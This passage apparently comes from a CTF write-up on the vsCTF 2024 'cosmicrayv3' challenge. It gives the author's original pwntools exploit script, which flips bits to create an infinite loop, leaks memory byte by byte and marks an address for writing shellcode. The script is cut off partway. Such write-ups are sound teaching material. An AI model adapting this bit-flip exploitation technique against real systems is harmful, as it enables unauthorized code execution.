 ![cosmic_ray_flag](/assets/img/vsctf2024/cosmic_ray_flag.jpg)

BTW, the script shown here is slightly edited for the sake of clarity. If you're curious about the original script I used in the CTF, here it is:

```python
from pwn import *

#p = process("./cosmicrayv3")
p = remote("[vsc.tf](http://vsc.tf)", 7000)
RET_ADDR = 0x00000000004015aa # ret at the end of cosmic_ray
SHELLCODE_START = 0x004015e5 # Address where we write the shellcode

def flip_bit(addr, bit):
	p.sendlineafter(b"Enter an address to send a cosmic ray through:\n", f"{addr}")
	p.sendlineafter(b"Enter the bit position to flip:\n", f"{bit}")

def infinite_loop():
	# ret at the end of the cosmic_ray function
	flip_bit(hex(RET_ADDR), 3)

def stop_infinite_loop():
	# flip it back to ret
	flip_bit(hex(RET_ADDR), 3)

def mem_leak(addr):
"""
Return the byte stored in addr as its bits
"""
	print("-----SENDING ADDDR {}-----".format(addr))
	p.sendlineafter(b"Enter an address to send a cosmic ray through:\n", f"{addr}")
	
	#p.interactive()
	p.recvline()
	p.recvline()
	p.recvline()
	ret = p.recv(18)
	p.sendlineafter(b"Enter the bit position to flip:\n", "0") # We'll immedaitly flip this back afterwards to not ruinn anything
	flip_bit(addr, 0)
```